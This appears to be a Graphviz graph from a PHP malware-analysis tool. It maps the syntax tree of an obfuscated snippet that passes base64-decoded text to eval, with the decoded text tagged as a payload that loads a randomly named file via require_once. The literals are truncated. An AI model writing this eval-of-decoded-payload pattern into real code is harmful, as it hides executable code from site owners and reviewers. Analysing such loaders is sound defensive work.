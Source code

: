 digraph ast {
node [shape=none];
49947530 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947530</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
49947530 -> 49947531 [weight=2];
49947563 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947563</TD><TD border='0'><B>HexLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>3c3f7068700d0a726571756972655f6f6e636...</TD></TR></TABLE>>];
49947531 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947531</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
49947531 -> 49947529 [weight=2];
49947528 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947528</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
49947529 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947529</TD><TD border='0'><B>StringExpression</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>PD9waHANCnJlcXVpcmVfb25jZSAncmppMEhUc...</TD></TR></TABLE>>];
49947534 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947534</TD><TD border='0'><B>Argument</B></TD></TR></TABLE>>];
49947534 -> 49947527 [weight=2];
49947534 -> 49947564 [style=dotted,label=DynamicResolution];
49947535 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947535</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5'>Patterns</TD><TD border='0' cellpadding='5'>[4, 10, 27]</TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
49947535 -> 49947525 [weight=2];
49947535 -> 49947533 [weight=2];
49947564 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947564</TD><TD border='0'><B>StringLiteral</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>?&gt;&lt;?php require_once 'rji0HTpLTHVHHu...</TD></TR></TABLE>>];
49947564 -> 49947565 [style=dotted,label=Parse];
49947532 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947532</TD><TD border='0'><B>FunctionCall</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>base64_decode</TD></TR></TABLE>>];
49947532 -> 49947528 [weight=2];
49947532 -> 49947530 [weight=2];
49947565 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947565</TD><TD border='0'><B>Payload</B></TD></TR></TABLE>>];
49947533 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947533</TD><TD border='0'><B>ArgumentList</B></TD></TR></TABLE>>];
49947533 -> 49947534 [weight=2];
49947526 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947526</TD><TD border='0'><B>StringExpression</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>?&gt;</TD></TR></TABLE>>];
49947527 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947527</TD><TD border='0'><B>BinOP</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>.</TD></TR></TABLE>>];
49947527 -> 49947526 [weight=2];
49947527 -> 49947532 [weight=2];
49947527 -> 49947563 [style=dotted,label=DynamicResolution];
49947525 [label=<<TABLE border='1' cellspacing='0' cellpadding='10' style='rounded' ><TR><TD border='0'>49947525</TD><TD border='0'><B>Id</B></TD></TR><HR/><TR><TD border='0' cellpadding='5' colspan='2'>eval</TD></TR></TABLE>>];
}
